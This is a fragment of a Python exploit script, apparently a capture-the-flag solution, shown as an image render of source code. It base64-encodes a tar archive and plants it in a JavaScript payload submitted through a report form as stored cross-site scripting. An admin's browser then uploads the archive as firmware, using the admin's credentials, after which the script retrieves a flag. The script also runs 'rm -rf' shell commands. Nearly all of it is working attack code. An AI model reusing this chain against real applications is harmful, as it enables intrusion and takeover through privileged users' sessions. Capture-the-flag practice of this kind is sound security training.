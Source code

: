 ```python
    os.system('gzip exp.tar')
    os.system('rm -rf ../app')
    
def js():   
    string = os.popen('cat exp.tar.gz | base64 -w0')
    os.system('rm -rf exp.tar.gz')
    b64String = string.read()
    global js 
    js = """
        <script>
        function base64toBlob(base64Data, contentType) {
        contentType = contentType || '';
        var sliceSize = 1024;
        var byteCharacters = atob(base64Data);
        var bytesLength = byteCharacters.length;
        var slicesCount = Math.ceil(bytesLength / sliceSize);
        var byteArrays = new Array(slicesCount);

        for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
            var begin = sliceIndex * sliceSize;
            var end = Math.min(begin + sliceSize, bytesLength);

            var bytes = new Array(end - begin);
            for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
                bytes[i] = byteCharacters[offset].charCodeAt(0);
            }
            byteArrays[sliceIndex] = new Uint8Array(bytes);
        }
        return new Blob(byteArrays, { type: contentType });
    }

    var b64file = """+f"'{b64String}'"+""";

    var content_type = 'application/x-gtar-compressed';
    var blob = base64toBlob(b64file, content_type);

    var formData = new FormData();
    formData.append('file', blob,'abcd');

    var url = 'http://localhost:1337/api/firmware/upload';
    var request = new XMLHttpRequest();
    request.withCredentials = true;
    request.open('POST', url);
    request.send(formData);
    </script>
    """

def report():
    r = requests.post(url + '/api/firmware/report', cookies=cookies, json={"module_id": "1", "issue": f"{js}"})
    if r.status_code != 200:
        print(r.text)
        exit()

def getflag():
    r = requests.get(url+'/static/getflag.txt')
    print(r.text.strip())
    exit()

def main():
    registerUser(randomText,randomText)
    loginUser(randomText, randomText)
    makeTar()
```
